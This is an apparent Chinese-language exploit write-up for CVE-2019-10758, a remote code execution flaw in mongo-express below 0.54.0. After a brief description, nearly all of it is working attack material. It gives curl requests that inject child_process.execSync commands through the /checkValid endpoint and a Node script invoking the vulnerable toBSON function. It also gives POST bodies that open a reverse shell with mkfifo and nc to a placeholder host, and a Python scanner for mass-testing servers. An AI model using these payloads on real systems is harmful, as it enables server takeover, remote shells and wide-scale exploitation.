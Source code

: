 ```yaml
---
title: "（CVE-2019-10758）Mongo expres rce"
id: zhfly3032
---
```


# （CVE-2019-10758）Mongo expres rce

## 一、漏洞简介

漏洞问题出在lib/bson.js中的toBSON()函数中，路由 /checkValid 从外部接收输入，并调用了存在 RCE 漏洞的代码，由此存在被攻击的风险，可在服务器上进行任意命令执行。

## 二、漏洞影响

mongo-express < 0.54.0

## 三、复现过程

https://github.com/ianxtianxt/CVE-2019-10758

#### 安装环境

```
docker run -p 27017:27017 -d mongo
npm install mongo-express@0.53.0 
cd node_modules/mongo-express/ && node app.js 
```

#### cURL exploit

```
curl 'http://www.0-sec.org:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("/Applications/Calculator.app/Contents/MacOS/Calculator")' 
```

```
curl 'http://www.0-sec.org:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw==' --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo Str1am > file.txt")' 
```

![image](../img/16b39f58adcd80d7accd415d73cf71fc.png)

#### Script exploit

```
node main.js 
```

#### main.js

```
exploit = "this.constructor.constructor(\"return process\")().mainModule.require('child_process').execSync('/Applications/Calculator.app/Contents/MacOS/Calculator')" `var bson = require(‘mongo-express/lib/bson’)

bson.toBSON(exploit)` 
```

### 补充

> mongo-express远程代码执行，反弹shell代码如下：

#### POST BODY 1:

```
document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("mkfifo /tmp/f") 
```

#### POST BODY 2：

```
document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("cat /tmp/f | /bin/sh -i 2>%261 | nc x.x.x.x 666 >/tmp/f") 
```

### 批量监测脚本【只放核心代码】

```
payload = r'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo 111111")' `def http_request(url,path_out):

try:

print(“Trying:” + url + ’ ’ + ‘[’ + str(left) + ‘/’ + str(countLines) + ‘]’)

vulurl = url + “/checkValid”

r = requests.post(url=vulurl, headers=headers, data=payload, timeout=10, verify= False)

if r.status_code == 200 and ‘Valid’ in r.text:

print("\033[1;40;32m’Good Found!’ {}\033[0m".format(vulurl))

#printGreen("[+]" + url)

with open(path_out,‘a’) as f:

f.write(vulurl + ‘\n’)

else:

print("[-]" + “r.status_code:” + str(r.status_code) + “,” + “raise.text:” + r.text)

except Exception as err:

print(err)` 
```